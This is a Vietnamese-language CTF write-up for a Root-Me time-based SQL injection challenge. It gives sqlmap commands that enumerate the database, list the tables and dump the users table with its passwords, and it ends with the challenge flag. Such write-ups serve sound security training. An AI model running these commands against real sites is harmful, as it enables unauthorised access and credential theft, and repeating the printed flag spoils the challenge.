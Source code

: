```yaml
---
template: overrides/blog.html
icon: material/plus-circle
title: SQL injection - Time based
description: >
  
search:
  exclude: true
hide:
  - feedback

tags:
    - SQL Injection 
---
```


# __SQL injection - Time based__

<span>
:octicons-calendar-24: May 03, 2023

</span>

---


## __Tài nguyên và link challenge__

Tài nguyên của challenge này tại [https://www.root-me.org/en/Challenges/Web-Server/SQL-injection-Time-based](https://www.root-me.org/en/Challenges/Web-Server/SQL-injection-Time-based)

Link challenge này tại [:octicons-arrow-right-24: http://challenge01.root-me.org/web-serveur/ch40/][http://challenge01.root-me.org/web-serveur/ch40/]

  [http://challenge01.root-me.org/web-serveur/ch40/]: http://challenge01.root-me.org/web-serveur/ch40/

## __Tổng quan__

Trong challenge này, mục tiêu của ta là lấy được password admin.

> __Time-based SQL Injection__ là một kỹ thuật SQL Injection suy luận dựa trên việc gửi một truy vấn SQL đến cơ sở dữ liệu, buộc cơ sở dữ liệu phải đợi một khoảng thời gian xác định (tính bằng giây) trước khi phản hồi

## __Kịch bản tấn công__
### Bước 1: Kiểm tra website

Challenge này cung cấp cho ta 2 website: 1 cho việc login tài khoản, 1 cho việc xem danh sách tài khoản

Có thể thấy, sau một vài thao tác truy cập danh sách tài khoản thì đều yêu cầu login tài khoản mới được quyền xem

### Bước 2: Khai thác website

Đầu tiên, ta dùng sqlmap để quét website và đặt thời gian cho CSDL phản hồi là 10s bằng lệnh `sqlmap -u "http://challenge01.root-me.org/web-serveur/ch40/?action=member&member=1" --time-sec=10 --dbs`

<figure markdown>
  ![Image title](/rootme/web-server/sql-injection/images/sql-injection-time-based-01.png#zoom)
  <figcaption>Hình ảnh mô tả kết quả câu lệnh</figcaption>
</figure>

???+ question "Chậm lại và suy nghĩ 1"

    Nếu không dùng `--time-sec=10`, liệu còn cách nào có thể quét ra database public không?

??? success "Giải quyết chậm lại suy nghĩ"

    Tôi đã nhúng 1 hình ảnh thể hiện cách giải nhằm đâu đó trong website này, bạn đọc tìm thử nhé. Cách tìm giống như bài nào đó phía trên :smile_cat: :smile_cat: :smile_cat:
Roài, ta tìm table trong database public thôi nào !!!!!

Dùng lệnh `sqlmap -u "http://challenge01.root-me.org/web-serveur/ch40/?action=member&member=1" --time-sec=10 -D public --tables`

<figure markdown>
  ![Image title](/rootme/web-server/sql-injection/images/sql-injection-time-based-02.png#zoom)
  <figcaption>Hình ảnh mô tả kết quả câu lệnh</figcaption>
</figure>

Từ đây, ta thấy được table users, tiến hành lấy các cột ở table và cuối cùng dump dữ liệu, ta sẽ được flag

<div class="result" markdown>

``` shell linenums="1"
sqlmap -u "http://challenge01.root-me.org/web-serveur/ch40/?action=member&member=1" --time-sec=10 -D public -T users --columns
sqlmap -u "http://challenge01.root-me.org/web-serveur/ch40/?action=member&member=1" --time-sec=10 -D public -T users -C id,email,usermame,password --dump
```

</div>

<figure markdown>
  ![Image title](/rootme/web-server/sql-injection/images/sql-injection-time-based-03.png#zoom)
  <figcaption>Hình ảnh mô tả kết quả câu lệnh</figcaption>
</figure>

!!! success "__Flag__"
    T!m3B@s3DSQL!
